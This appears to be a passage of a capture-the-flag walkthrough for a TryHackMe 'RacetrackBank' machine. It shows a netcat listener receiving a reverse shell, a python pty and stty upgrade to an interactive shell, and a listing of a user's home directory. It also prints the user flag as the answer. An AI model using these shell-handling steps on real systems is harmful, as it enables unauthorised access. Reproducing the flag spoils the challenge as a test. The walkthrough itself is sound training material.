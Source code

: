 ```bash
:~/RacetrackBank# nc -nvlp 9001
...
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
brian@racetrack:~/website$ ^Z
[1]+  Stopped                 nc -nvlp 9001
:~/RacetrackBank# stty -echo raw;fg
nc -nvlp 9001

brian@racetrack:~/website$ export TERM=xterm
brian@racetrack:~/website$ cd /home
brian@racetrack:~$ ls -lah
total 76K
drwxr-xr-x 11 brian brian 4.0K Apr 23  2020 .
drwxr-xr-x  3 root  root  4.0K Apr 22  2020 ..
drwxrwxr-x  3 root  root  4.0K Apr 23  2020 admin
-rw-r--r--  1 brian brian  220 Apr  4  2018 .bash_logout
-rw-r--r--  1 brian brian 3.7K Apr  4  2018 .bashrc
drwx------  2 brian brian 4.0K Apr 22  2020 .cache
drwxr-xr-x  2 brian brian 4.0K Apr 23  2020 cleanup
drwx------  3 brian brian 4.0K Apr 22  2020 .config
drwx------  3 brian brian 4.0K Apr 22  2020 .gnupg
-rw-------  1 brian brian    0 Apr 22  2020 .node_repl_history
drwxrwxr-x  5 brian brian 4.0K Apr 22  2020 .npm
drwxrwxr-x  5 brian brian 4.0K Aug 10 19:08 .pm2
-rw-r--r--  1 brian brian  807 Apr  4  2018 .profile
-rw-rw-r--  1 brian brian   39 Apr 23  2020 user.txt
drwxr-xr-x  2 brian brian 4.0K Apr 22  2020 .vim
-rw-------  1 root  root   15K Apr 22  2020 .viminfo
drwxrwxr-x  6 brian brian 4.0K Apr 22  2020 website
brian@racetrack:~$ ls
admin  cleanup  user.txt  website
brian@racetrack:~$ cat user.txt
THM{178c31090a7e0f69560730ad21d90e70}

brian@racetrack:~$ 
```


<br>

<p>1.1. User flag<br>
<code>THM{178c31090a7e0f69560730ad21d90e70}</code></p>

<br>

<br>

```bash
brian@racetrack:~$ cd admin
brian@racetrack:~/admin$ ls
accounts  manageaccounts
brian@racetrack:~/admin$ cd accounts
brian@racetrack:~/admin/accounts$ ls
ben.account  charles.account  elise.account
```
